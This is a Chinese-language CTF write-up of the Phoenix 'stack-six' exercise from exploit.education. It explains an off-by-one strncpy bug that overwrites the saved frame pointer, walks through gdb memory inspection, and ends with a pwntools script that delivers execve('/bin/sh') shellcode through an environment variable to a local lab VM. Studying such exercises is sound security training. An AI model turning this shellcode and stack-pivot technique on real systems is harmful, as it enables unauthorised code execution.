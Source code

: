 ```yaml
---
title: "[pwn笔记3]stack-six(phoenix)"
urlname: "[pwn笔记3]"
tags: [stack, pwn]
date: April 30, 2023 10:11 PM
---
```


## 听说把这段写进~/.gdbinit里面会让栈的情况更加真实（在调试的时候）

（参考[https://n1ght-w0lf.github.io/binary exploitation/stack-six/](https://n1ght-w0lf.github.io/binary%20exploitation/stack-six/)）

```bash
unset env LINES
unset env COLUMNS
set env _ /opt/phoenix/amd64/stack-six
```

## 然后这是本题源码

```c
/*
 * phoenix/stack-six, by https://exploit.education
 *
 * Can you execve("/bin/sh", ...) ?
 *
 * Why do fungi have to pay double bus fares? Because they take up too
 * mushroom.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *what = GREET;

char *greet(char *who) {
  char buffer[128];
  int maxSize;

  maxSize = strlen(who);
  if (maxSize > (sizeof(buffer) - /* ensure null termination */ 1)) {
    maxSize = sizeof(buffer) - 1;
  }

  strcpy(buffer, what);
  strncpy(buffer + strlen(buffer), who, maxSize);

  return strdup(buffer);
}

int main(int argc, char **argv) {
  char *ptr;
  printf("%s\n", BANNER);

#ifdef NEWARCH
  if (argv[1]) {
    what = argv[1];
  }
#endif

  ptr = getenv("ExploitEducation");
  if (NULL == ptr) {
    // This style of comparison prevents issues where you may accidentally
    // type if(ptr = NULL) {}..

    errx(1, "Please specify an environment variable called ExploitEducation");
  }

  printf("%s\n", greet(ptr));
  return 0;
}
```

## 理论

其中greet函数有两点错误：

- strncpy函数不会自动在末尾添加\0，而strdup是根据\0来判断结尾的

- strncpy的起始地址是buffer + GREET的长度，但复制长度确是maxSize，导致了末尾有个跟GREET一样长的区域可以溢出（好像减了1）。

调试一下发现，覆盖不到返回地址，但是可以覆盖到压进栈里的rbp的最后两位。

众所周知（不知道的看这个<https://zhuanlan.zhihu.com/p/27339191>），进入函数时会执行：

```nasm
call xxx
;相当于
;push $+1
;jmp xxx
push rbp
mov rbp, rsp
sub rsp, xxx
```

而函数返回时执行的

```nasm
leave
ret
```

相当于

```nasm
mov rsp, rbp
pop rbp
pop rip
```

当我们把greet函数栈里面存着的（前）rbp改为了x。

那么`*x`就会变成main函数的栈底，`*x+8`就会变成main函数的返回地址。

## 理论存在，实践开始

gdb调试一下，能改的范围在：0x7fffffffe500~0x7fffffffe5ff

用这个命令看看这个范围里都有什么东西

```
x/32xg 0x00007fffffffe500
```

顺便确定一下我们输入的东西在哪。（注意不在栈的范围的东西不能要了（存疑），所以我们搜环境变量）

```
(gdb) grep ExploitEducation=
[+] Searching 'ExploitEducation=' in memory
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rwx
  0x7fffffffeee5 - 0x7fffffffef1c  →   "ExploitEducation=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
```

去掉开头，确定我们输入的范围

```
>>> hex(0xeee5+len("ExploitEducation="))
'0xeef6'
>>> hex(0xeee5+126)
'0xef63'
```

回到之前看的范围（好像这样写顺序不太对，不管了）

`0x7fffffffe5c8`里正好是`0x00007fffffffeef6`，你说巧不巧

```python
from pwn import *

shell = ssh("user", "localhost", password="user", port=2222)
shellcode = b'\x90'*20
shellcode += b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
shellcode += b"A"*(126-len(shellcode))+b'\xc0'

sh = shell.run("/opt/phoenix/amd64/stack-six", env={"ExploitEducation": shellcode})
print(sh.recvline())
sh.interactive()
```

好了。

![结果](/pics/[pwn笔记3]%2073a412be24d94419b5e23f937cfdf3af-img/2023-05-01-22-22-48-image.png)
